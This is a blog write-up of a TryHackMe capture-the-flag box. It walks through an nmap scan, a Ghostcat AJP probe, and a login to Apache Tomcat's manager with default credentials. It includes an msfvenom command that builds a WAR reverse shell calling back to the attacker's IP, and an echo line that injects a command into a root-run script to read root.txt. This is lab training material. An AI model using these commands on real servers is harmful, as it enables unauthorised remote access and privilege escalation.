 ```yaml
---
layout: post
title: "Thompson | THM "
date: 2021-11-26 11:50:00 -0000
categories: CTF THM
---
```

Just a simple boot to root box.

Lets start by navigating to the url.

Ok, I get an unable to connect to the server. Lets run nmap and see what we can find.

Nmap scan report for 10.10.203.251
Host is up (0.17s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
22/tcp   open     ssh
1272/tcp filtered cspmlockmgr
5904/tcp filtered unknown
8009/tcp open     ajp13
8080/tcp open     http-proxy
8649/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 96.05 seconds

Attempting to connect to 8080 and I get an SSL timeout error. Removing the HTTPs from the start of the url fixes this problem. (oops!)


If we do a little research, we can find that /manager/html has a login page.

Lets see if there are any other vulnerabilities for apache tomcat 8.5.5. Theres a python script that may work for rce. Tried it but it did not work.

Ok - lets take a step back and look at some of the other ports.I have never seen ajp before. AJP is used to allow efficient passing of binary
representations of the headers between the proxy server and the app server.

Doing some research there seems to be a vulnerability called ghostcat that may exploit this protocol.

Ok - watched a john hammond video on ghost cat vuln and found an ajp shooter that works. I can read files off of the site. Now, we just need to find the installation directory.

Couldn't find anything! Turns out i went down a rabbit hole. After i looked at a hint, lets go back to the manager login and try the default creds.

Remember folks, ALWAYS TRY THE DEFAULT CREDS.
https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown

haha wow look im in.

There are a few different endpoints here and an ability to upload files/directories. There is a WAR file upload, lets see if we can exploit that.

https://null-byte.wonderhowto.com/how-to/hack-apache-tomcat-via-malicious-war-file-upload-0202593/

tried to use metasploit but it did not work. Lets try to do it manually.

msfvenom -p java/shell_reverse_tcp lhost=10.6.10.177 lport=9999 -f war -o pwn.war

That worked! Time to upgrade shell
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

nice, now we can read user.txt. Lets try to escalate privs or move laterally. Theres an interesting file thats running that runs as root and dumps it into a text file.

So, a normal human being would use a text editor to edit the file. But, here we use echo. append the following command to cause the script to
read the root.txt located in the /root/root.txt directory.

echo -e 'echo -e $(cat /root/root.txt >> test.txt)' >> id.sh

yes, that is two echos. But it works! So after 2 hours and multiple wrong paths we have finished the box!

Thank you for following along with this adhd guide. 
